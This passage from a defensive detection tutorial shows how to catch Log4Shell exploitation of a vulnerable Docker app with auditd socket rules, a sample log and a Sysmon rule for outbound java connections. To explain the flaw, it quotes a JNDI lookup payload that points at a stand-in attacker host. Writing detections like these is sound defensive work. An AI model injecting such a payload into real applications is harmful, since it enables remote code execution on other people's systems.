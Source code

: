 
##### 1.6.3 Example: log4shell 

Although strictly, not a webshell or persistence. This is a good example where sysmon's flexibility shines.

Run the vulnerable app through docker found [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app). This would also require you to exploit POC described in the repo. 

See [Critical RCE Vulnerability: log4j - CVE-2021-44228 \[5\]](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java) for complete details. Briefly, the vulnerability is caused by a malicious string such as 

```
${jndi:ldap://bad.com/exploit}
```

This causes the application to fetch the remote java object and execute it. This is an example of a case where outbound connections by the java applications might be an indicator of exploitation. We can use `auditd` and `sysmon` to look for network connections initiated by the app running on docker. 

** 1.6.3.1 auditd ** 

Because of how docker runs, the container and application will run as root. So if we look for new connections made by the app, we will need to look for connections created by `root` 

```
-a always,exit -F arch=b32 -S socket -F euid=0 -F a0=2  -k root_connection
-a always,exit -F arch=b32 -S socket -F euid=0 -F a0=10 -k root_connection
-a always,exit -F arch=b64 -S socket -F euid=0 -F a0=2  -k root_connection
-a always,exit -F arch=b64 -S socket -F euid=0 -F a0=10 -k root_connection
```

This will result in the following logs

```
SYSCALL arch=c000003e syscall=41 success=yes exit=23 a0=2 a1=1 a2=0 a3=0 items=0 ppid=26165 pid=26183 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=4294967295 comm="java" exe="/usr/lib/jvm/java-1.8-openjdk/jre/bin/java" subj==docker-default (enforce) key="root_connection"
PROCTITLE proctitle=6A617661002D6A6172002F6170702F737072696E672D626F6F742D6170706C69636174696F6E2E6A6172
```

Although this catches the exploit, it also catches other normal network connections root might make. What if we want to filter only for connections created by "java". I don't think you can do this with `auditd`'s filters although I may be wrong.

** 1.6.3.2 sysmon **

In sysmon, this would be much easier to do

```xml
<Rule name="log4shell" groupRelation="and">
    <Protocol condition="is">tcp</Protocol> 
    <Image condition="end with">java</Image>
</Rule>
```
